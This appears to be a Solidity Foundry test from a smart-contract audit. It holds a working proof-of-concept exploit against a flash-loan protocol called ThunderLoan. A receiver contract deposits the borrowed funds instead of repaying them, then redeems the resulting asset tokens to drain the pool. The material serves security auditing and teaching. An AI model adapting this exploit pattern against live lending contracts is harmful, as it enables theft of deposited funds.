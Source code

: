```solidity
    function test_audit_depositReplacingRepay()
        public
        setAllowedToken
        hasDeposits
    {
        uint256 amountToBorrow = 100e18;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(
            tokenA,
            amountToBorrow
        );

        // User executes a malicious deposit without repaying the flash loan,
        // draining amountToBorrow from the ThunderLoan contract.
        vm.startPrank(user);
        DepositNotRepay dnr = new DepositNotRepay(thunderLoan);
        tokenA.mint(address(dnr), calculatedFee);
        thunderLoan.flashloan(address(dnr), tokenA, amountToBorrow, "");
        dnr.withdrawDrained(tokenA, user);
        vm.stopPrank();

        assertGe(tokenA.balanceOf(user), amountToBorrow);
    }

contract DepositNotRepay is IFlashLoanReceiver {
    ThunderLoan tl;

    constructor(ThunderLoan _tl) {
        tl = _tl;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address,
        bytes calldata
    ) external override returns (bool) {
        uint256 repayAmount = amount + fee;
        IERC20(token).approve(address(tl), repayAmount);
        // Instead of repaying, deposit the borrowed funds.
        tl.deposit(IERC20(token), repayAmount);
        return true;
    }

    function withdrawDrained(IERC20 token, address to) public {
        AssetToken assetToken = tl.getAssetFromToken(token);
        // Redeem the asset tokens received from the malicious deposit.
        tl.redeem(token, assetToken.balanceOf(address(this)));
        token.transfer(to, token.balanceOf(address(this)));
    }
}
```
